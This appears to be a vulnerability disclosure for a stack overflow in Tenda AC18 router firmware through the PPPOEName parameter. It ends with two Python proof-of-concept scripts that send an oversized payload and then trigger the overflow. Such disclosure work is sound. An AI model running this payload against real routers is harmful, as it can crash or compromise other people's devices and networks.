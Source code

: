 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/QuickIndex` url. The `v9` variable receives the `PPPOEName` parameter from a POST request and is stored in the configuration item named``wan1.ppoe.userid` through the SetValue function.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_161638.png)

`wan1.ppoe.userid`  configuration item can  be retrieved through the GetValue function in the `/goform/fast_setting_get` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_162239.png)

## PoC

first SetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/QuickIndex"
payload = "a"*1000

data = {"mit_linktype": 2,"PPPOEName":payload}
response = requests.post(url, data=data)
print(response.text)
```

second GetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/fast_setting_get"
response = requests.post(url)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)
